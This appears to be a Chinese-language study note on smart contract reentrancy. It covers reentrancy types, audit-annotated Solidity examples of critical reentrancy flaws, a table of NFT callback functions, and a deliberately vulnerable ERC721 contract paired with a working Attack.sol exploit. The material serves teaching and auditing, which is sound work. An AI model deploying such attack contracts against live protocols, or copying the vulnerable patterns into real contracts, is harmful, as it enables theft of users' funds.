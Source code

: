 ```yaml
---
title: 2.Reentrancy
---
```

# Brief
现实世界的智能合约经常对其他智能合约进行外部调用。智能合约审计员或攻击者必须始终检查这些外部调用，以查看是否存在允许他们在交易中重新输入目标合约并利用。
# Type
- Signle-Function Reentrancy
- Cross-Function Reentrancy
- Cross-Contract Reentrancy
- Cross-Chain Reentrancy
- Read_only_reentrancy

# Read_only_reentrancy
Read Only Rentrancy 指的是view函数被重入了，因为View函数无法修改链上数据，所以一般view函数不会被保护。但是如果状态不一致，则可能会报告错误的值。其他依赖返回值的协议可能会被欺骗读取错误的状态以执行不需要的操作。

https://medium.com/zokyo-io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334
# Re-entrancy Bypass Verification Checks
```solidity
function _removeCollateral(address sendTo, IPaprController.Collateral calldata collateral,
                           uint256 oraclePrice,uint256 cachedTarget) internal {
    if (collateralOwner[collateral.addr][collateral.id] != msg.sender) {
        revert IPaprController.OnlyCollateralOwner();
    }

    delete collateralOwner[collateral.addr][collateral.id];

    uint16 newCount;
    unchecked {
        newCount = _vaultInfo[msg.sender][collateral.addr].count - 1;
        _vaultInfo[msg.sender][collateral.addr].count = newCount;
    }
    //
    // @audit CRITICAL Re-Entrancy attack due to not following Check-Effects-Interaction pattern
    // ERC721.safeTransferFrom() calls sendTo.onERC721Received() if sendTo is a contract.
    //
    // 1) attacker deposits multiple nfts as collateral into one vault & borrows max amount against them
    //
    // 2) attacker calls removeCollateral() for first nft, then in AttackContract.onERC721Received() 
    //    calls removeCollateral() for second nft & so on until only 1 nft left in vault as collateral
    //
    // 3) for last nft AttackContract.onERC721Received() calls startLiquidationAuction()
    //    then purchaseLiquidationAuctionNFT() to buy their own nft via liquidation auction.
    //    As this was the vault's last collateral nft, the vault debt will be set to 0 which passes the
    //    subsequent checks that would have never passed.
    //
    collateral.addr.safeTransferFrom(address(this), sendTo, collateral.id);

    uint256 debt = _vaultInfo[msg.sender][collateral.addr].debt;
    uint256 max = _maxDebt(oraclePrice * newCount, cachedTarget);

    if (debt > max) {
        revert IPaprController.ExceedsMaxDebt(debt, max);
    }

    emit RemoveCollateral(msg.sender, collateral.addr, collateral.id);
}

```
# Re-entrancy Bypass Storage Writes
```solidity
    /// @dev Split the units of `_tokenID` owned by `account` across `_values`
    /// @dev `_values` must sum to total `units` held at `_tokenID`
    function _splitValue(address _account, uint256 _tokenID, uint256[] calldata _values) internal {
        // ... //
        uint256 valueLeft = tokenValues[_tokenID];
        // ... //

        for (uint256 i; i < len; ) {
            valueLeft -= values[i];

            tokenValues[toIDs[i]] = values[i];

            unchecked {
                ++i;
            }
        }
        //
        // @audit CRITICAL Re-entrancy attack due to not following the Check-Effects-Interaction pattern
        //
        // ERC1155._mintBatch() will call _account.onERC1155BatchReceived() if
        // _account is contract. AttackContract.onERC1155BatchReceived() can hijack execution
        // flow by re-entering _splitValue() via HypercertMinter.splitValue() many times to mint a huge amount
        // of fractions for the same _tokenID as the decreased valueLeft has not been written to storage before
        // calling ERC1155._mintBatch()
        //

        _mintBatch(_account, toIDs, amounts, "");

        tokenValues[_tokenID] = valueLeft;

        emit BatchValueTransfer(typeIDs, fromIDs, toIDs, values);
    }
```
# NFT Reentrancy
尽管NFT标准（ERC721/ERC1155）为了防止用户误把资产转入黑洞而加入了安全转账，但是如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。
例如 ERC721 的 safeTransferFrom() 函数会调用目标地址的 onERC721Received() 函数，而黑客可以把恶意代码嵌入其中进行攻击。

## 危险函数表
| Standard | Vulnerablefunction                  |
| -------- | ----------------------------------- |
| ERC721   | safeTransferFrom                    |
|          | _safeTransfer                       |
|          | _safeMint                           |
|          | _checkonERC721Received              |
| ERC1155  | safeTransferFrom                    |
|          | _safeTransferFrom                   |
|          | safeBatchTransferFrom               |
|          | _safeBatchTransferFrom              |
|          | _mint                               |
|          | _mintBatch                          |
|          | _doSafeTransferAcceptanceCheck      |
|          | _doSafeBatchTransferAcceptanceCheck |


## Example
Code from [WTF](https://github.com/AmazingAng/WTF-Solidity/blob/main/S16_NFTReentrancy/readme.md)

```solidity title="NFT.sol"
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

```solidity title="Attack.sol"
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

# Cross Reentrancy

# Refer
https://github.com/WTFAcademy/WTF-Solidity/tree/main/S01_ReentrancyAttack
https://dacian.me/re-entrancy-attacks
https://github.com/WTFAcademy/WTF-Solidity/tree/main/S16_NFTReentrancy
https://github.com/WTFAcademy/WTF-Solidity/tree/main/S17_CrossReentrancy